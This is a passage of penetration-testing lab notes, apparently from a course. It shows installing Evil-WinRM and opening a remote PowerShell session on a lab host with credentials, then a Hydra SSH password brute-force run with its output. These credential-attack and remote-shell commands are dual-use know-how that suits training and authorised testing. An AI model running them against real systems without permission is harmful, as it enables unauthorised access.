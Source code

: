 #### Evil-WinRM

```sh
sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

#### Evil-WinRM Usage

```sh
evil-winrm -i <target-IP> -u <username> -p <password>
```

```sh
evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```

* If the login was successful, a terminal session is initialized using the [Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) (`MS-PSRP`), which simplifies the operation and execution of commands

## Hydra - SSH

```sh
hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
